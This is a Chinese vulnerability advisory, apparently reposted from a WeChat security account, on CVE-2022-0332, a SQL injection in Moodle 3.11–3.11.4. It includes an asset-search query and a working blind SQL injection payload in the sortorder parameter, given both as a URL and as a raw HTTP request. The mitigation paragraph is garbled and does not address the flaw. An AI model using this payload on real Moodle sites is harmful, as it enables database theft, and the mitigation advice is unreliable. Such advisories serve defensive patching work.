


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：有效wstoken、Web service/H5P活动启用且账号有相关活动权限

- **适用与权限边界（1）**：重要认证token被当常量复制，正文没说明获取/权限，不能作无鉴权PoC。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **操作与副作用边界（2）**：修改默认用户名密码不能修sortorder注入，所谓官方缓解无引用且访问d白名单文字损坏。保留原步骤及请求方法。执行条件包括隔离且获授权的可恢复环境、预先记录相关文件/账号/配置/业务记录状态；响应完成不能等同无副作用，恢复时须核对该操作涉及的实际对象。

- **来源与引用处置（3）**：缺明确修复版本/官方公告；教程广告/超长分隔线可清理；与282同源载荷。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Moodle 3.11到3.11.4-SQL 注入（CVE-2022-0332）

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/6IG6kCJHdGUC_Mh2Gx0mxQ)


**点击蓝字** 关注我们


-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

  

**_声明  
_**

本文作者：CKCsec安全研究院  
本文字数：625

阅读时长：3 分钟

项目/链接：文末获取

**本文属于【CKCsec安全研究院】原创文章，未经许可禁止转载**

遵纪守法  

-------

任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益

漏洞描述
----

在 Moodle 3.11 到 3.11.4 版本中发现了一个缺陷。在负责获取用户尝试数据的 h5p 活动 Web 服务中发现了 SQL 注入风险。

风险等级
----

高危

影响版本
----

Moodle 3.11 到 3.11.4

资产确定
----

```
app="Moodle"  

```

漏洞检测
----

**「POC」**

```
 /moodle-3.11.4/webservice/rest/server.php?wstoken=98f7d8003180afbd46ee160fdc05a4fc&wsfunction=mod_h5pactivity_get_user_attempts&moodlewsrestformat=json&h5pactivityid=1&sortorder=%28SELECT%20%28CASE%20WHEN%20%28ORD%28MID%28%28IFNULL%28CAST%28DATABASE%28%29%20AS%20NCHAR%29%2C0x20%29%29%2C4%2C1%29%29%3E104%29%20THEN%20%27%27%20ELSE%20%28SELECT%205080%20UNION%20SELECT%204100%29%20END%29%29
```

```
GET /moodle-3.11.4/webservice/rest/server.php?wstoken=98f7d8003180afbd46ee160fdc05a4fc&wsfunction=mod_h5pactivity_get_user_attempts&moodlewsrestformat=json&h5pactivityid=1&sortorder=%28SELECT%20%28CASE%20WHEN%20%28ORD%28MID%28%28IFNULL%28CAST%28DATABASE%28%29%20AS%20NCHAR%29%2C0x20%29%29%2C4%2C1%29%29%3E104%29%20THEN%20%27%27%20ELSE%20%28SELECT%205080%20UNION%20SELECT%204100%29%20END%29%29 HTTP/1.1  
Cache-Control: no-cache  
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:22.0) Gecko/20130328 Firefox/22.0  
Host: 127.0.0.1  
Accept: */*  
Accept-Encoding: gzip, deflate  
Connection: close  

```



cve
---

https://github.com/numanturle/CVE-2022-0332

修复方案
----

目前官方已发布修复版本修复了该漏洞，请受影响的用户升级到安全版本

若无法及时升级的用户，可根据官方提供的修复建议通过修改默认用户名和密码，并设置访问 d的白名单进行缓解。

另外关注公众号后台回复“**0112**”可免费获取代码审计教程，后台回复“**0110**”获取[红队攻防内部手册](http://mp.weixin.qq.com/s?__biz=MzkxMTIyMjg0NQ==&mid=2247488677&idx=1&sn=f0d52096bc9b7a6a34d1ad0fb9d73727&chksm=c11e25f7f669ace128a38a07e22e3988e41dd03fb1deb4ce6f793231f95c8c91ba038d766eb3&scene=21#wechat_redirect)。

  

  ** CKCsec安全研究院 ** 专注于网络安全的公众号，分享最新的Red Team、APT等高级攻击技术、以及最新的漏洞威胁刨析。 29篇原创内容   公众号

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，CKCsec安全研究院以及文章作者不为此承担任何责任。  
  

CKCsec安全研究院有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
